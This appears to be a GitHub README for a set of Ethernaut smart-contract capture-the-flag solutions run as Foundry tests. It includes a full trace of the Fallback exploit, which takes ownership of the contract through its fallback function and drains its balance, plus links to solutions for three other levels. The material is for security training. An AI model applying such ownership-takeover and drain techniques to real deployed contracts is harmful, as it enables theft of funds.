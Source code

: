 # 🔐 Ethernaut CTFs challenges and solutions
Inspired by [ethernaut-x-foundry](https://github.com/ciaranmcveigh5/ethernaut-x-foundry)

## 📌 Set up the project
- Install [Foundry](https://github.com/foundry-rs/foundry#installation)
- Create a new project: `$ forge init`
- Install libraries:
    - Ethernaut challenges: `$ forge install openzeppelin/ethernaut`
    - OpenZeppelin standard contracts: `$ forge install openzeppelin/openzeppelin-contracts@release-v3.4`
- Edit `foundry.toml` and fill in the correct remappings
```toml
[profile.default]
src = 'src'
out = 'out'
libs = ['lib']
remappings = [
    'forge-std/=lib/forge-std/src/',
    'ethernaut/=lib/ethernaut/contracts/',
    '@openzeppelin/=lib/openzeppelin-contracts/',
]
# See more config options https://github.com/foundry-rs/foundry/tree/master/config
```

## 🧪 Run the exploits

### 1. Run a specific test
```sh
$ forge test --match-contract FallbackExploit -vvvv
[⠢] Compiling...
No files changed, compilation skipped

Running 1 test for test/FallbackExploit.sol:FallbackExploit
[PASS] testExploit() (gas: 788447)
Logs:
  Fallback contract owner: 0x185a4dc360ce69bdccee33b3784b0282f7961aea
  New Fallback contract owner: 0x0000000000000000000000000000000000000539
  Exploiter address: 0x0000000000000000000000000000000000000539
  Fallback contract balance: 2
  New Fallback contract balance: 0

Traces:
  [788447] FallbackExploit::testExploit() 
    ├─ [396946] → new FallbackFactory@0x185a4dc360CE69bDCceE33b3784B0282f7961aea
    │   ├─ emit OwnershipTransferred(previousOwner: 0x0000000000000000000000000000000000000000, newOwner: FallbackExploit: [0xb4c79daB8f259C7Aee6E5b2Aa729821864227e84])
    │   └─ ← 1864 bytes of code
    ├─ [24632] Ethernaut::registerLevel(FallbackFactory: [0x185a4dc360CE69bDCceE33b3784B0282f7961aea]) 
    │   └─ ← ()
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000539) 
    │   └─ ← ()
    ├─ [257980] Ethernaut::createLevelInstance(FallbackFactory: [0x185a4dc360CE69bDCceE33b3784B0282f7961aea]) 
    │   ├─ [211011] FallbackFactory::createInstance(0x0000000000000000000000000000000000000539) 
    │   │   ├─ [178499] → new Fallback@0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067
    │   │   │   └─ ← 670 bytes of code
    │   │   └─ ← Fallback: [0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067]
    │   ├─ emit LevelInstanceCreatedLog(player: 0x0000000000000000000000000000000000000539, instance: Fallback: [0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067])
    │   └─ ← Fallback: [0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067]
    ├─ [22687] Fallback::contribute{value: 1}() 
    │   └─ ← ()
    ├─ [427] Fallback::contributions(0x0000000000000000000000000000000000000539) [staticcall]
    │   └─ ← 1
    ├─ [359] Fallback::owner() [staticcall]
    │   └─ ← FallbackFactory: [0x185a4dc360CE69bDCceE33b3784B0282f7961aea]
    ├─ emit log_named_address(key: Fallback contract owner, val: FallbackFactory: [0x185a4dc360CE69bDCceE33b3784B0282f7961aea])
    ├─ [514] Fallback::fallback{value: 1}() 
    │   └─ ← ()
    ├─ [359] Fallback::owner() [staticcall]
    │   └─ ← 0x0000000000000000000000000000000000000539
    ├─ [359] Fallback::owner() [staticcall]
    │   └─ ← 0x0000000000000000000000000000000000000539
    ├─ emit log_named_address(key: New Fallback contract owner, val: 0x0000000000000000000000000000000000000539)
    ├─ emit log_named_address(key: Exploiter address, val: 0x0000000000000000000000000000000000000539)
    ├─ emit log_named_uint(key: Fallback contract balance, val: 2)
    ├─ [7277] Fallback::withdraw() 
    │   ├─ [0] 0x0000000000000000000000000000000000000539::fallback{value: 2}() 
    │   │   └─ ← ()
    │   └─ ← ()
    ├─ emit log_named_uint(key: New Fallback contract balance, val: 0)
    ├─ [4273] Ethernaut::submitLevelInstance(Fallback: [0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067]) 
    │   ├─ [1279] FallbackFactory::validateInstance(Fallback: [0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067], 0x0000000000000000000000000000000000000539) 
    │   │   ├─ [359] Fallback::owner() [staticcall]
    │   │   │   └─ ← 0x0000000000000000000000000000000000000539
    │   │   └─ ← true
    │   ├─ emit LevelCompletedLog(player: 0x0000000000000000000000000000000000000539, level: FallbackFactory: [0x185a4dc360CE69bDCceE33b3784B0282f7961aea])
    │   └─ ← true
    ├─ [0] VM::stopPrank() 
    │   └─ ← ()
    └─ ← ()

Test result: ok. 1 passed; 0 failed; finished in 424.83µs
```

### 2. Run all the tests
```sh
$ forge test
[⠢] Compiling...
No files changed, compilation skipped

Running 1 test for test/FallbackExploit.sol:FallbackExploit
[PASS] testExploit() (gas: 788447)
Test result: ok. 1 passed; 0 failed; finished in 401.67µs

Running 1 test for test/FalloutExploit.sol:FalloutExploit
[PASS] testExploit() (gas: 767402)
Test result: ok. 1 passed; 0 failed; finished in 400.21µs
```

## Lint the files using [Solhint](https://github.com/protofire/solhint)
`$ solhint 'src/*.sol' 'test/*.t.sol'`

## 🛡 Levels

| N° | Name | Challenge | Solution |
| -- | ---- | --------- | -------- |
| 01 | Fallback | [link](https://ethernaut.openzeppelin.com/level/0x6F9cf195B9B4c1259E8FCe5b4e30F7142f779DeA) | [link](https://github.com/leovct/ethernaut/tree/main/test/FallbackExploit.t.sol#L27) |
| 02 | Fallout | [link](https://ethernaut.openzeppelin.com/level/0x40F5513a90fb7e2ac2C3E12A6d16B9279D1e94Ed) | [link](https://github.com/leovct/ethernaut/tree/main/test/FalloutExploit.t.sol#L27) |
| 03 | CoinFlip | [link](https://ethernaut.openzeppelin.com/level/0xae9677ff69efB3C1B9559C8F2A9ED6a2212148e3) | [link](https://github.com/leovct/ethernaut/tree/main/test/CoinFlipExploit.t.sol#L31) |
| 04 | Telephone | [link](https://ethernaut.openzeppelin.com/level/0x466BDd41a04473A01031C9D80f61A9487C7ef488) | [link](https://github.com/leovct/ethernaut/tree/main/test/TelephoneExploit.t.sol#L35) |
